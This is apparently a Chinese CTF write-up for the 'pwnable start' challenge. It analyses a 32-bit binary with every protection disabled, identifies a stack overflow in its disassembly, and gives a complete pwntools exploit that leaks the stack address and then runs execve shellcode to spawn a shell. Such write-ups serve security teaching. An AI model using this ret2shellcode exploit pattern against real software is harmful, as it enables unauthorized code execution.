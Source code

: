 ```yaml
---
author: 
  name: Zephyr
title: pwnable start
date: 2022-4-17 09:15:09
permalink: /pages/2e1547494524d1b9
tags: 
  - buuctf
  - pwn
---
```


# pwnable start

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/pwnable_start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

程序汇编代码如下：

```asm
start:     file format elf32-i386
Disassembly of section .text:
08048060 <_start>:
 8048060:	54                   	push   %esp
 8048061:	68 9d 80 04 08       	push   $0x804809d
 804806e:	68 43 54 46 3a       	push   $0x3a465443
 8048073:	68 74 68 65 20       	push   $0x20656874
 8048078:	68 61 72 74 20       	push   $0x20747261
 804807d:	68 73 20 73 74       	push   $0x74732073
 8048082:	68 4c 65 74 27       	push   $0x2774654c
 8048087:	89 e1                	mov    %esp,%ecx
 8048089:	b2 14                	mov    $0x14,%dl
 804808b:	b3 01                	mov    $0x1,%bl
 804808d:	b0 04                	mov    $0x4,%al
 804808f:	cd 80                	int    $0x80
 ; write(1,esp,0x14)
 8048091:	31 db                	xor    %ebx,%ebx
 8048093:	b2 3c                	mov    $0x3c,%dl
 8048095:	b0 03                	mov    $0x3,%al
 8048097:	cd 80                	int    $0x80
 ; read(0,esp,0x3c) 
 8048099:	83 c4 14             	add    $0x14,%esp     ; 栈溢出
 804809c:	c3                   	ret    
0804809d <_exit>:
 804809d:	5c                   	pop    %esp
 804809e:	31 c0                	xor    %eax,%eax
 80480a0:	40                   	inc    %eax
 80480a1:	cd 80                	int    $0x80
```

## 思路分析

1. 目前信息：

   - 返回到`esp+0x14`处，但`esp`处可读入`0x3c`长度数据，存在栈溢出
   - No RELRO
   - No canary found
   - NX disabled
   - No PIE
3. 思路

   - 保护全关，考虑`ret2shellcode`，`ret2shellcode`需要先泄漏栈地址，利用栈溢出第一次`ret`到`8048087`处，这时栈顶刚好是程序一开始压栈的`esp`，并且传递给`ecx`，接着`write`系统调用将基址泄漏出来，另外二次写入的地址也是这个泄露出来的基址，常规`ret2shellcode`即可获得`shell`，需要注意的是最后返回到`esp+0x14`处，所以`shellcode`也要对应抬高栈帧

```shell
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwnable_start/start'
# io = remote('node4.buuoj.cn', 29235)
io = process(pwnfile)
padding = 0x14
leak_addr = 0x8048087
io.sendafter("Let's start the CTF:", flat(['a'*padding, leak_addr]))
esp = u32(io.recv(4))
log.success("esp:"+hex(esp))
shellcode = asm("""
    xor edx,edx;
    xor ecx,ecx;
    push edx;
    push 0x68732f6e;
    push 0x69622f2f;
    mov ebx,esp;
    mov eax,0xb;
    int 0x80;
    """)
log.success("shellcode lenth:"+hex(len(shellcode)))
payload = flat(['a'*padding, esp+padding, shellcode])
io.send(payload)
io.interactive()
```


